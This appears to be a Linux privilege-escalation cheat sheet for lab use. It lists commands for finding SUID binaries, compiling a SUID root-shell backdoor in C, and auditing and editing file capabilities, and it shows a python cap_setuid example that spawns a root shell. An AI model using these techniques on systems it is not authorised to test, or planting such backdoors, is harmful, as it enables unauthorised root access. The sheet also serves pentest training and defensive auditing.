 
    ╭─Cyber_Public_School@lab ~  
    ╰─$ ls /usr/bin/sudo -alh                  
    -rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Find SUID binaries

    find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
    find / -uid 0 -perm -4000 -type f 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Create a SUID binary
Function	Description
setreuid()	sets real and effective user IDs of the calling process
setuid()	sets the effective user ID of the calling process
setgid()	sets the effective group ID of the calling process

    print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
    gcc -o /tmp/suid /tmp/suid.c  
    sudo chmod +x /tmp/suid # execute right
    sudo chmod +s /tmp/suid # setuid bit
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Capabilities

    List capabilities of binaries
    ╭─Cyber_Public_School@lab ~  
    ╰─$ /usr/bin/getcap -r  /usr/bin
    /usr/bin/fping                = cap_net_raw+ep
    /usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
    /usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
    /usr/bin/rlogin               = cap_net_bind_service+ep
    /usr/bin/ping                 = cap_net_raw+ep
    /usr/bin/rsh                  = cap_net_bind_service+ep
    /usr/bin/rcp                  = cap_net_bind_service+ep
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Edit capabilities

    /usr/bin/setcap -r /bin/ping            # remove
    /usr/bin/setcap cap_net_raw+p /bin/ping # add
    Interesting capabilities
    Having the capability =ep means the binary has all the capabilities.
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

    $ getcap openssl /usr/bin/openssl 
    openssl=ep
    Alternatively the following capabilities can be used in order to upgrade your current privileges.


    cap_dac_read_search # read anything
    cap_setuid+ep # setuid

    Example of privilege escalation with cap_setuid+ep
    $ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

    $ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    sh-5.0# id
    uid=0(root) gid=1000(swissky)
    Capabilities name	Description
    CAP_AUDIT_CONTROL	Allow to enable/disable kernel auditing
    CAP_AUDIT_WRITE	Helps to write records to kernel auditing log
    CAP_BLOCK_SUSPEND	This feature can block system suspends
    CAP_CHOWN	Allow user to make arbitrary change to files UIDs and GIDs
    CAP_DAC_OVERRIDE	This helps to bypass file read, write and execute permission checks
    CAP_DAC_READ_SEARCH	This only bypasses file and directory read/execute permission checks
    CAP_FOWNER	This enables bypass of permission checks on operations that normally require the filesystem UID of the process to match the UID of the file
    CAP_KILL	Allow the sending of signals to processes belonging to others